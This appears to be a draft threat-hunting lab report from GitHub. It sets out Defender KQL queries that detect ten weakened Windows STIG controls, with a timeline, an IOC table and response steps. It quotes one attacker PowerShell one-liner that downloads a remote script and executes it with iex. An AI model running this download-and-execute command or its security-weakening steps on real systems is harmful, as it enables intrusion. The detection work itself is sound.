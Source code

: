 ![image](https://github.com/user-attachments/assets/aae438d1-b51f-4691-b49b-e45fa8b044ad)

# Threat Hunt Report: Crimson Mongoose Ransomware Pre-Staging (((DRAFT))) 
- [Scenario Creation](./threat-hunting-scenario-ransomware-pre-staging-activity-event-creation.md)

---

## Platforms and Languages Leveraged
- Windows 10 Virtual Machine (Microsoft Azure)
- EDR Platform: **Microsoft Defender for Endpoint** (Advanced Hunting)
- Kusto Query Language (KQL)
- PowerShell

---

## Scenario

**Alert source:** Regional CERT flash warning of a new ransomware crew, *Crimson Mongoose*.

**Key intel:** In every confirmed intrusion the actors quickly flip **exactly ten Windows 10 STIG controls** that kill logging (PowerShell, audit), weaken UAC, and enable insecure remote protocols (SMB signing, WinRM HTTP, disable FIPS).  
They then lurk ≤ 24 h before detonating an encryptor.

**Goal:** Detect all ten STIG flips on the single lab VM and escalate **before** the 24-hour fuse expires.

### High-Level IOC Discovery Plan

| Table | IOC Focus |
|-------|-----------|
| `DeviceRegistryEvents` | Any of the ten registry paths/values set to non-compliant data. |
| `DeviceProcessEvents` | `reg.exe`, `Set-ItemProperty`, or `auditpol.exe` commands that performed the flips. |
| `DeviceNetworkEvents` | Unsigned SMB or WinRM HTTP (port 5985) traffic that follows the mis-configs. |

---

## Steps Taken

### 1. Checked `DeviceRegistryEvents` for STIG value changes

Simple sweep for any key containing the PowerShell, WinRM, SMB, FIPS, or UAC paths with bad values (`0` or `1` depending on control).  
**Query used:**

```kql
DeviceRegistryEvents
| where Timestamp > ago(24h)
| where ActionType == "RegistryValueSet"  
| where RegistryKey has_any ([...])
| project Timestamp, DeviceName, RegistryKey, RegistryValueName, 
         RegistryValueData, InitiatingProcessAccountName,  
         InitiatingProcessFileName
| order by Timestamp desc
```
Findings: All ten non-compliant values appeared between 2025-06-17 18:03–18:05 UTC.

##

### 2. Checked `DeviceProcessEvents` for who made the changes
Focused on commands containing reg add, Set-ItemProperty, or auditpol.
Query:

```kql
DeviceProcessEvents
| where Timestamp between (datetime(2025-06-17T18:00Z) .. datetime(2025-06-17T18:10Z))
| where ProcessCommandLine has_any ("reg add","Set-ItemProperty","auditpol")
| project Timestamp, FileName, ProcessCommandLine, InitiatingProcessAccountUpn
| order by Timestamp desc
```

Findings:
Process owner corp\backupsvc executed one-liner PowerShell:
```
powershell.exe -ep Bypass -NoProfile -c "iwr https://raw.githubusercontent.../stig-pre-staging-iocs.ps1 | iex"
```

This matches attacker TTP: pull-and-run script from GitHub, window hidden.

##

### 3. Searched `DeviceNetworkEvents` for supporting traffic
Hunted for unsigned SMB and WinRM HTTP (5985):

```kql
DeviceNetworkEvents
| where Timestamp > datetime(2025-06-17T18:05Z)
| where (RemotePort == 5985 and Protocol == "Tcp")  
   or (LocalPort == 445 and Protocol == "Tcp" and AdditionalFields contains "SmbIsSigned")
| project Timestamp, RemoteIP, RemotePort, InitiatingProcessFileName
| order by Timestamp desc
```

### 4. Validation - Confirmed All 10 STIG Controls Modified
Validated that all 10 controls were modified by same account:
```kql
DeviceRegistryEvents
| where Timestamp between (datetime(2025-06-17T18:00Z) .. datetime(2025-06-17T18:10Z))
| where ActionType == "RegistryValueSet"
| where RegistryKey has_any ([list of 10 specific paths])
| summarize 
    ModifiedControls = dcount(RegistryKey),
    ControlsList = make_set(RegistryKey),
    UniqueAccounts = dcount(InitiatingProcessAccountName)
  by DeviceName
| where ModifiedControls == 10
```
Findings: Confirmed all 10 STIG controls were modified by single account (corp\backupsvc) within 2-minute window.

---

### Chronological Event Timeline

| Time (UTC) | Event |
|-------|-----------|
|18:03:12|powershell.exe (hidden) downloaded and executed stig-pre-staging-iocs.ps1.|
|18:03:14–18:05:09|All ten registry values flipped to non-compliant (DeviceRegistryEvents).|
|18:05:22|First WinRM HTTP connection to 10.0.0.15:5985 by powershell.exe.|

| IOC (Type) | Value | Confidence | MITRE ATT&CK
|-------|-----------|-------|-----------|
| Compromised Account | corp\backupsvc | High | T1078
| Malicious Process | powershell.exe -ep Bypass -NoProfile | High | T1059.001
| C2 Server | 10.0.0.15:5985 (WinRM) | Medium | T1021.006
| Malicious Script | stig-pre-staging-iocs.ps1 | High | T1203
| Registry Modifications | 10 STIG controls disabled | High | T1112

---

## Summary
The VM showed the full Crimson Mongoose STIG footprint: ten critical controls disabled by account corp\backupsvc via a single remote-downloaded PowerShell command, followed by WinRM traffic.
This matches pre-staging behavior; ransomware detonation would likely follow within the next 24 hours.

---

### Response Taken
Immediate Actions:

- Isolated device via MDE
- Disabled corp\backupsvc account
- Initiated enterprise-wide hunt for similar activity

---

